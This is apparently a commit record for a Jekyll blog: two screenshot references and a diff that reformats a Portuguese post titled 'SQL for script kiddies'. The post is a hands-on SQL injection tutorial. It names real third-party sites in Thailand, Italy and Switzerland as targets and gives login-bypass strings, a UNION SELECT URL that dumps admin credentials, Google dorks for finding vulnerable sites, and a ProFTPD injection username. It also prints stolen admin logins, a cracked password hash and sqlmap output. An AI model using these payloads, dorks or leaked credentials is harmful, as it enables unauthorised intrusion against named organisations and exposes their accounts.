

Before and after one commit to Kingm0b/jekyll-minimal-theme, a Jekyll site: the page built from index.html, in a window 1280 px wide. Shown: the top 370 px of the page, without its empty margins (248-888 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add files via upload

````diff
--- a/_posts/2017-02-27-sql-injection.md
+++ b/_posts/2017-02-27-sql-injection.md
@@ -1,6 +1,6 @@
 ---
 layout: post
-title: "SQL Injection for script kiddies"
+title: "SQL for script kiddies"
 ---
 
 Primeiramente, porque "injeção de SQL"?
@@ -16,25 +16,28 @@
 
 - SQLi Básico: no formulário de login é injetado uma string SQL com o objetivo de burlar a autenticação. Exemplo de site vulnerável da Tailândia:
 
-      http://www.kdy.ac.th/admin/login.php
+http://www.kdy.ac.th/admin/login.php
 
 Experimente:
 
+```
 Login: 'or'1--
 Senha: 'or'1--
+```
 
 Você vai perceber que conseguiu se logar apenas fornecendo esses fragmentos de código SQL como login e senha.
 
 Exemplos de outros sites:
 
-- http://www.senate.go.th/senate/admin/ (Este inclusive já foi hackeado kkk)
+- http://www.senate.go.th/senate/admin/ (Este inclusive já foi hackeado)
 - http://www.prism.co.th/pscc/Back-admin/login.php
 - http://www.pisini.it/soft/admin/login.php (Site da Itália)
 - http://ilgroglio.it/admin/
 
-    - SQLi Avançado: nesse caso, a injeção acontecerá diretamente na URL do site por requisição GET (em situações mais convencionais, mas existe também a possibilidade de se atacar por meio de POST - porque não?). O diferencial deste ataque com relação ao anterior é que você irá interagir com o banco de dados até conseguir o login e a senha armazenado nele.
+- SQLi Avançado: nesse caso, a injeção acontecerá diretamente na URL do site por requisição GET (em situações mais convencionais, mas existe também a possibilidade de se atacar por meio de POST - porque não?). O diferencial deste ataque com relação ao anterior é que você irá interagir com o banco de dados até conseguir o login e a senha armazenado nele.
 
 Exemplo, olha esse site da Tailândia: http://www.thailandquitline.or.th/news.php?id=58
+
 Legal né?
 
 Só por curiosidade, experimente incrementar o valor passado para a variável id:
@@ -42,7 +45,7 @@
 - http://www.thailandquitline.or.th/news.php?id=59
 - http://www.thailandquitline.or.th/news.php?id=60
 
-    Esses valores são identificadores de dados armazenados no banco. De certa forma, quando você manipula esses valores você está interagindo com o banco de dados do site, uma vez que, a cada valor diferente de ID que você definir gerará uma consulta SELECT diferente pelo arquivo news.php.
+Esses valores são identificadores de dados armazenados no banco. De certa forma, quando você manipula esses valores você está interagindo com o banco de dados do site, uma vez que, a cada valor diferente de ID que você definir gerará uma consulta SELECT diferente pelo arquivo news.php.
 
 Se você acrescentar uma aspa simples junto ao id, você poderá ver uma mensagem de erro retornada:
 
@@ -50,12 +53,16 @@
 
 Isso aconteceu porque a consulta feita pelo news.php para o banco de dados foi 'corrompida'. Uma vez que o número passado para a variável id continha um código SQL (o aspa ' ). Isso é um bom sinal. Indo mais além olhe isto, jovem:
 
+```
 http://www.thailandquitline.or.th/news.php?id=-58 union all select concat(username,0x3a,password),2,3,4 from admin--
+```
 
 Copie tudo que está na linha a cima e cole no seu navegador.
 
+```
 Login: admin
 Senha: systemadmin
+```
 
 Ciente de que existe um padrão na exploração de SQL injection (detecção do SGBD usado, enumeração de tabelas, busca por campos de tabela de usuarios para extração de login e senha e etc), alguns especialistas no assunto desenvolveram ferramentas que automatizam isto, como é o caso do Havij e do SQLMAP:
 
@@ -63,22 +70,25 @@
 http://sqlmap.org/
 
 Uma coisa que você tinha me perguntado: como encontrar sites vulneráveis á SQLi ?
-A resposta: GOOGLE kk
-Os sites que postei aqui nesse email foram encontrados por ele. Eu me utilizei de recursos
-avançados do Google para pesquisas mais específicas.
+
+A resposta: GOOGLE
+
+Os sites que postei aqui nesse email foram encontrados por ele. Eu me utilizei de recursos avançados do Google para pesquisas mais específicas.
+
 Help: https://support.google.com/websearch/answer/2466433?hl=pt-BR
 
-Pesquisas específicas utilizando de operadores avançados de pesquisa do Google
-são comumente chamados de "dorks", exemplo de como encontrei os sites
-vulneráveis da Itália:
+Pesquisas específicas utilizando de operadores avançados de pesquisa do Google são comumente chamados de "dorks", exemplo de como encontrei os sites vulneráveis da Itália:
 
+```
 inurl:/admin/admin.php +site:it
+```
 
 Outro exemplo: eu pesquiso por sites que contenham alguma URL com news.php?id=
 e que tenha seu domínio .th (Tailândia):
 
+```
 inurl:news.php?id= +site:th
-
+```
 
 Ao contrário do que se pensam, SQL Injection não se limita apenas a sistemas WEB, vide o caso desta vulnerabilidade:
 
@@ -86,8 +96,10 @@
 
 No caso desta falha, que seria interessante ser citada na apresentação, um serviço de FTP chamado "Proftpd" possui um módulo que permite autenticação do serviço de FTP com usuários cadastrados em um banco de dados MySQL. O interessante é que este módulo não fazia validação dos dados de entrada, permitindo que um atacante pudesse injetar strings SQL como nome de usuário, assim:
 
+```
 username: %') and 1=2 union select 1,1,uid,gid,homedir,shell from users; --
 password: 1
+```
 
 E com isso ele conseguia rodar comandos no FTP server sem conhecer nenhum login nem senha.
 
@@ -237,16 +249,16 @@
 Resultado:
 
 ```
-     web application technology: Apache 2, PHP 5.2.17
-     back-end DBMS: MySQL 5.0.11
-     Database: admin_nd
-     Table: admin
-     [1 entry]
-     +------+------------------+---------------------+----------------------+----------------------+
-     | root | username  | lastname       |   password     | firstname       |
-     +-------+-----------------+---------------------+----------------------+----------------------+
-     | 1      | admin       | Administrator | systemadmin | Administrator|
-     +-------+------------------+---------------------+---------------------+----------------------+
+web application technology: Apache 2, PHP 5.2.17
+back-end DBMS: MySQL 5.0.11
+Database: admin_nd
+Table: admin
+[1 entry]
++------+------------------+---------------------+----------------+
+| root | username  | lastname      | password    | firstname     |
++-------+-----------------+---------------------+----------------+
+| 1    | admin     | Administrator | systemadmin | Administrator |
++-------+------------------+---------------------+---------------+
 ```
 
 Experimente fazer esses procedimentos com esses sites:
@@ -264,8 +276,10 @@
 
 Página de login: http://www.stonetouch.ch/admin/privilege.php?act=login
 
+```
 Login: admin
 Hash da senha em MD5: 0192023a7bbd73250516f069df18b500
 Hash quebrado: admin123
+```
 
 EOF
````
